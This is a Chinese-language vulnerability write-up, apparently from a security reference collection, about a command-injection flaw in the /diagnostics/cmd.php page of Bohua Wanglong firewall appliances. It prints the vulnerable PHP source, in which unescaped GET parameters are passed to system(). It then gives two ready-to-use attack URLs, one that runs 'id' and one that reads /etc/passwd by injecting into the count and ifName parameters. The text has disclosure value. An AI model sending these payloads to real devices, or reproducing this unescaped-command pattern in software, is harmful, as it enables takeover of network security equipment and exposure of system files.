

# 博华网龙防火墙 cmd.php 远程命令执行漏洞(OEM)

## 漏洞描述

博华网龙防火墙 cmd.php 过滤不足，导致命令拼接执行远程命令

## 漏洞影响

<a-checkbox checked>博华网龙防火墙</a-checkbox></br>

<a-checkbox checked>博华网龙信息安全一体机</a-checkbox></br>

<a-checkbox checked>博华龙芯防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"博华网龙防火墙"</a-checkbox></br>

## 漏洞复现

登录页面


存在漏洞的文件为 `/diagnostics/cmd.php`

```php
<?php
    include_once("pub/pub.inc");
    include_once("pub/session.inc");
    
    $username = $_SESSION["USER_NAME"];
    checkApproachUrl(); 
    
  if($_GET['action'] == "ping")
  {
        $host = $_GET['host'];
        $count = $_GET['count'];
        system("/bin/ping -c $count " . escapeshellarg($host)." >temp.htm");
        
         if($username)
            pSyslog("ping $host $count次", 0);           
  }
  else if($_GET['action'] == "traceroute")
  {
        $host = $_GET['host'];
        $ttl =  $_GET['ttl'];
        $useicmp = $_GET['useicmp'];
        
        if($useicmp)
            $useicmp = "-I";
        else
            $useicmp = "";        
        system("/usr/bin/traceroute -d $useicmp -w 2 -m " . escapeshellarg($ttl) . " " . escapeshellarg($host)." >temp.htm");    
        if($username)
            pSyslog("traceroute $host 跳数为$ttl", 0);     
  }
  else if($_GET['action'] == "arping")
  {
    $host = $_GET['host'];
    $count = $_GET['count'];
    $if = $_GET['ifName'];
    $src = $_GET['src'];
    system("/usr/bin/arping -I $if -c $count -s $src $host >temp.htm");
    
     if($username)
        pSyslog("arping $host $count次", 0);
  }
  else
  {
    system("echo \"\" >temp.htm");
  } 
?>
```

可以发现其中存在多个命令执行点，均可进行命令拼接执行恶意命令

构造命令执行

```php
/diagnostics/cmd.php?action=ping&count=||id||
/diagnostics/cmd.php?action=arping&ifName=|cat /etc/passwd||
```



